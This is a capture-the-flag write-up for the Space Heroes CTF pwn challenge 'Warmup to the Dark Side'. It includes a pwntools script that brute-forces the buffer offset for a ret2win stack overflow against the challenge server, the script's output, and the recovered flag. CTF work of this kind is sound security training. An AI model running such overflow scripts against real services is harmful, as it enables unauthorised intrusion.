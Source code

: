 ```yaml
---
title: "shctf/pwn: Warmup to the Dark Side"
date: 2022-04-05 15:57:40
tags:
- ctf
- shctf
- pwn
description: "Writeup for the Space Heroes CTF pwn challenge [Warmup to the Dark Side]."
permalink: ctfs/shctf/pwn/warmup-to-the-dark-side/
thumbnail: https://enscribe.dev/image/banner-ctfs.png
---
```


## 📜 Description

Once you start down the dark path, forever will it dominate your destiny.
(And yes, the binary isn't included)

`nc 0.cloud.chals.io 30096`
**Author**: v10l3nt

---

## 🔍 Detailed Solution

Let's run that `netcat` link to see what's going on:

```text
kali@kali:~/shctf/pwn/warmup-to-the-dark-side$ nc 0.cloud.chals.io 30096
The Dark Side Of The Force, Are They. Easily They Flow, Quick To Join You In A Fight. The Dark Side resides at: 0x55a6b42f020c
Jedi Mind tricks dont work on me >>> 
```

We're given an address of the `win()` function... and that's it. If this is a `ret2win` challenge, how are we meant to find the offset of the `$rip` register and overflow it with our code? Of course... we need to brute force it.

In the code snippet below, I got the address provided in the prompt by reading the line and taking its substring (ASLR is enabled, so it's different each time). Then, I slowly increase the buffer of the payload with a loop until I find the right offset of the `$rip`:

```py
from pwn import *
for i in range(0,100):
        p = remote("0.cloud.chals.io", 30096)
        address = p.readlineS()[112:126]
        log.info("Trying offset " + str(i) + " for address " + address)
        p.sendline(b'A'*i + p64(int(address, base=16)))
        output = p.recvallS()
        if "shctf" in output:
                log.success(output)
                break
        p.close()
```

Let's run this script on the server to see if we can get the flag:

```text
...
[*] Trying offset 37 for address 0x55f788f1120c
[+] Receiving all data: Done (38B)
[*] Closed connection to 0.cloud.chals.io port 30096
[+] Opening connection to 0.cloud.chals.io on port 30096: Done
[*] Trying offset 38 for address 0x5631d523620c
[+] Receiving all data: Done (38B)
[*] Closed connection to 0.cloud.chals.io port 30096
[+] Opening connection to 0.cloud.chals.io on port 30096: Done
[*] Trying offset 39 for address 0x55980d2d520c
[+] Receiving all data: Done (38B)
[*] Closed connection to 0.cloud.chals.io port 30096
[+] Opening connection to 0.cloud.chals.io on port 30096: Done
[*] Trying offset 40 for address 0x55f0008b520c
[+] Receiving all data: Done (95B)
[*] Closed connection to 0.cloud.chals.io port 30096
[+] Jedi Mind tricks dont work on me >>> 
    shctf{I_will_remov3_th3s3_restraints_and_leave_the_c3ll}
```
